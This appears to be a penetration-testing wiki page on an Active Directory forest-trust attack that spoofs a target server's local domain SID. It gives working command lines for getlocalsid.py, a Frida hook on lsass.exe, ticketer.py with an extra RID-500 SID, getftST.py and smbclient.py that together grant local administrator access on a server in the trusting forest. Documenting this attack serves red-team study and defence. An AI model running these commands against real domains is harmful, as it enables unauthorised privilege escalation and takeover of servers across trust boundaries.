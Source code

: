 The attack is conducted as follows:

1. **Get the local domain's SID of the target server**. This step requires Windows older than Windows 10 build 1607, or before Server 2016, as it uses MS-LSAT RPC to query the target server for the SID of its local domain, that is restricted on newer versions and requires administrative privileges on the target.
2. **Spoof the local domain's SID of the target server**. This steps must be run as `SYSTEM` on the trusted forest's domain controller. The Frida script used for this step is made for Windows Server 2016 version 1607. If the target runs a different version, the address offset might be different and some additional preparation must be done.
3. **Forging tickets**. For this step, refer to [Kerberos authentication](trusts.md#kerberos-authentication) theory chapter for more details about the trust key being used, the ticket forgery is then highly similar to the [Forging ticket](trusts.md#forging-tickets) practice part.

{% hint style="info" %}
For more details about how this attack works under the hood, refer to the article on [dirkjanm.io](https://dirkjanm.io/active-directory-forest-trusts-part-two-trust-transitivity/) by [Dirk-jan Mollema](https://twitter.com/\_dirkjan).
{% endhint %}

{% hint style="warning" %}
Some considerations to reproduce the attack:&#x20;

* Full control over the trusted forest is assumed.&#x20;
* Information that flows over to the trusting forest can be modified.&#x20;
* There is at least one server joined to a domain in the trusting forest (referred to as the "target server" here).
{% endhint %}

The attack can be conducted with [Dirk-jan Mollema](https://twitter.com/\_dirkjan)'s [forest trust tools](https://github.com/dirkjanm/forest-trust-tools).

<pre class="language-bash" data-title="1. Get Local Domain SID" data-overflow="wrap"><code class="lang-bash"><strong># Obtain the local domain's SID of the target server in the trusting forest
</strong><strong># The hostname (Security Principal Name) of the target server is required
</strong>getlocalsid.py "trusted_domain"/"someusername"@"&#x3C;target_server_FQDN or IP address>" "target_server_NETBIOS_name"
</code></pre>

<pre class="language-bash" data-title="2. Spoof the target SID" data-overflow="wrap"><code class="lang-bash"><strong># Become a "domain" in the trusted forest using the spoofed SID so that this one is added to the authorized SIDs in the trusting domain
</strong><strong># Intercept the Netlogon request for an existing child domain in the trusted forset and modify the SID with the spoofed one by hooking lsass.exe when the NetrGetForestTrustInformation RPC call is made 
</strong><strong># Notice that the SID of the child domain to look for and the local domain's SID of the  target server should be modified with the right values
</strong><strong># This is to be run as SYSTEM on the trusted DC
</strong>python3 .\frida_intercept.py lsass.exe
</code></pre>

<pre class="language-bash" data-title="3. Get local admin on the target" data-overflow="wrap"><code class="lang-bash"><strong># 1. Forge an inter-realm/referral ticket with the spoofed SID put as extended SID with RID 500 using the AES key of the incoming trust
</strong><strong>ticketer.py -aesKey "AES_key_of_incoming_trust" -domain "trusted_root_domain_FQDN" -domain-sid "trusted_root_domain_SID" -user-id 1000 -groups 513 -extra-sid "&#x3C;spoofed_SID>"-500 -spn "krbtgt/trusting_root_domain_FQDN" "someusername"
</strong><strong>
</strong><strong># 2. Request a service ticket using the forged referral ticket
</strong><strong># Notice that keys has to be manually modified in the getftST.py script before
</strong>KRB5CCNAME="someusername.ccache" getftST.py -spn "CIFS/target_server_FQDN" -target-domain "trusting_root_domain_FQDN" -via-domain "trusted_root_domain_FQDN" "domain/username" -dc-ip "target_DC_IP"
<strong>
</strong><strong># 3. Use the obtained ST to access the target server as local admin
</strong>KRB5CCNAME=username.ccache smbclient.py -k "trusted_domain"/"someusername"@"target_server_FQDN" -no-pass